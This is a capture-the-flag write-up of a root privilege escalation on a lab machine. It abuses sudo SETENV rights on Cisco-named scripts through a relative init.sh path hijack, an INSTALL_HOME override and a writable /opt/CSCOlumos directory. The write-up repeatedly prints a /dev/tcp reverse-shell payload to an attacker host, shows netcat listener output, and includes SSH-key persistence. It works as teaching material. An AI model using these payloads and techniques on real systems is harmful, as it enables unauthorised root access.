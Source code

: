 # Prime Time (root)
<p align="center">
    <img src="img/prime_time_root_chall.png" alt="Challenge" width="500"/>
</p>

The shell we got from exploiting the ActiveMQ service only gives us a *pseudo-shell* (which is a bit annoying to use), so we start by adding our ssh public-key to `/home/activemq/.ssh/authorized_keys` so that we can ssh into the machine.

As the user `prime` we have some sudo-rights which we are going to exploit to root the machine.
```
[prime@ip-10-128-2-125 ~]$ sudo -l
Matching Defaults entries for prime on ip-10-128-2-125:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User prime may run the following commands on ip-10-128-2-125:
    (ALL) SETENV: NOPASSWD: /opt/CSCOlumos/rcmds/
```

We are allowed to set environment variables and run scripts located in `/opt/CSCOlumos/rcmds/`. Inside this directory there are 88 (!) scripts which we can run.
```
[prime@ip-10-128-2-125 ~]$ ls /opt/CSCOlumos/rcmds/ -l | wc -l
88
```

With this many scripts to analyze for vulnerabilities the easiest method is probably to look at the smaller ones. There are multiple scripts which can be abused to escalate our privileges to root, using the same method(s). I ended up using the `hmadmin.sh` script to solve the challenge.
```
[prime@ip-10-128-2-125 rcmds]$ cat hmadmin.sh
#!/bin/bash
. init.sh

$INSTALL_HOME/bin/hmadmin.sh
```

It first executes `init.sh`, which is a script doing a lot of stuff (e.g. set the `$INSTALL_HOME` environment variable to `/opt/CSCOlumos`), but most importantly, its path is not absolute. This means that we can be in any directory executing `/opt/CSCOlumos/rcmds/hmadmin.sh`, and the it will search for `init.sh` in our current working directory. Because we can execute `/opt/CSCOlumos/rcmds/hmadmin.sh` as root, and that script executes `init.sh` in our CWD (in this case /dev/shm), we can create an `init.sh` which gives us a reverse shell.
```bash
[prime@ip-10-128-2-125 shm]$ pwd
/dev/shm
[prime@ip-10-128-2-125 shm]$ ls
init.sh
[prime@ip-10-128-2-125 shm]$ cat init.sh
#!/bin/bash

/bin/bash -c "sh -i >& /dev/tcp/<attacker_ip>/9001 0>&1"
```

Running the command `sudo /opt/CSCOlumos/rcmds/hmadmin.sh` and listening on port 9001 with `nc -lnvp 9001` then gives us shell as root!
```
$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [<attacker_ip>] from (UNKNOWN) [10.128.2.125] 34292
sh-4.2# id
id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
sh-4.2# cat /root/root.txt
cat /root/root.txt
EPT{5b2f8f8681b6621b519ef09adf371174}
```


**Note:** During the ctf my exploit looked a little different. I made my own `init.sh` which basically was empty, created my own `bin/hmadmin.sh` in CWD which executed the reverse shell, and set the `INSTALL_HOME` environment variable to CWD to execute my own `bin/hmadmin.sh` file. This lead to the *real* `hmadmin.sh` to search for and execute my `bin/hmadmin.sh`
```
[prime@ip-10-128-2-125 shm]$ pwd
/dev/shm
[prime@ip-10-128-2-125 shm]$ ls
bin  init.sh
[prime@ip-10-128-2-125 shm]$ ls bin
hmadmin.sh
[prime@ip-10-128-2-125 shm]$ cat init.sh
#!/bin/bash

echo "Executed"
[prime@ip-10-128-2-125 shm]$ cat bin/hmadmin.sh
#!/bin/bash

/bin/bash -c "sh -i >& /dev/tcp/<attacker_ip>/9001 0>&1"
```

Running the command `sudo INSTALL_HOME=/dev/shm /opt/CSCOlumos/rcmds/hmadmin.sh` gives a reverse shell as root, similar to the other technique.

## Bonus: Prime Time (root)
In addition to the `path hijack` vulnerability to escalate privileges to root, there is an `insecure file permission` vulnerability as well that can be exploited!

As a reminder, we can run scripts located in `/opt/CSCOlumos/rcmds/` as root.
<p align="center">
    <img src="img/prime_time_meme.png" alt="Meme" width="500"/>
</p>

Whoops...
```
[prime@ip-10-128-3-174 CSCOlumos]$ pwd
/opt/CSCOlumos
[prime@ip-10-128-3-174 CSCOlumos]$ ls -al
total 172
drwxrwxr-x. 60 prime root     4096 Nov  5 06:15 .
drwxr-xr-x.  4 root  root       39 Oct 15 03:42 ..
```

Apparently, we just own the directory `/opt/CSCOlumos/` as the user `prime`, so we can create a new `rcmds` directory with any scripts we want inside, and run them as root...
```
[prime@ip-10-128-3-174 CSCOlumos]$ pwd
/opt/CSCOlumos
[prime@ip-10-128-3-174 CSCOlumos]$ ls rcmds/
shell.sh
[prime@ip-10-128-3-174 CSCOlumos]$ cat rcmds/shell.sh
#!/bin/bash

/bin/bash -c "sh -i >& /dev/tcp/<attacker_ip>/9001 0>&1"
```

Running this script gives us a root shell once again.
```
$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [<attacker_ip>] from (UNKNOWN) [10.128.3.174] 52254
sh-4.2# id
id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```
